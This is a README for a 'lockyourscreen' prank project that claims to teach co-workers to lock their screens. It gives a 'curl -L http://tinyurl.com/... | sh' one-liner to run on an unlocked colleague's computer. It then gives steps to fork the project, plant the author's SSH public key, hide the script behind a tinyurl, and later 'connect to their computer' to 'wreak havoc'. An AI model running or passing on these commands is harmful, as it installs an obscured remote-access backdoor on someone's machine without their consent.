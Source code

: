 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:

```
  curl -L http://tinyurl.com/davidhassel | sh
```



If you want to use this to teach infidels too lock their screen you have to make a fork.

Steps to teaching infidels
1. Fork this project

2. Change setup.sh to curl https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/id_lockyourscreen.pub

3. create a tinyurl for https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/setup.sh

4. Run ```curl -L http://tinyurl.com/#YOURTINYURL# | sh```

5. Connect to their computer when they get back from whatever they where doing and wreak havoc!

